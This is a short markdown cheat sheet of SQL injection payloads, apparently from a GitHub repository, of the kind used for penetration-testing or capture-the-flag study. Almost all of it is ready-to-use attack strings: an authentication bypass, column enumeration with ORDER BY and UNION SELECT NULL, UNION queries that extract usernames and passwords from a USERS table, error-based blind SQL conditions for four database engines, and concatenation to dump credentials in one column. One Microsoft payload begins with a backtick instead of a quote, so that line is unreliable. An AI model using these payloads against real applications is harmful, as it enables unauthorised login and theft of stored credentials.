 ### Basic authentication bypass
```
# Enter in the username field
' OR 1=1--
```

### Determine the number of columns in a table
```
# INcrement order by one until an "out of range" error is received

' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

# If the number of NULLS does not match the number of columns, an error is received.
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
### Retrieving values to fields
```
# if the number of columns and values are the same
' UNION SELECT username,password from USERS--

# if the number of columns and values are different
# Example: 3 columns 2 values
' UNION SELECT username,password,null from USERS--
# Columns must support the result type (e.g.. string column can only hold a string value)
```
### Blind SQL
```
#Oracle  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual  

#Microsoft  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END  

#PostgreSQL  
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END  

#MySQL  
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')  

```
### Retrieving multiple values in a single column (String Concatenation)
```
# oracle
' UNION SELECT username || '~' || password from USERS--
# Microsoft
` UNION SELECT username+password FROM USERS--

```
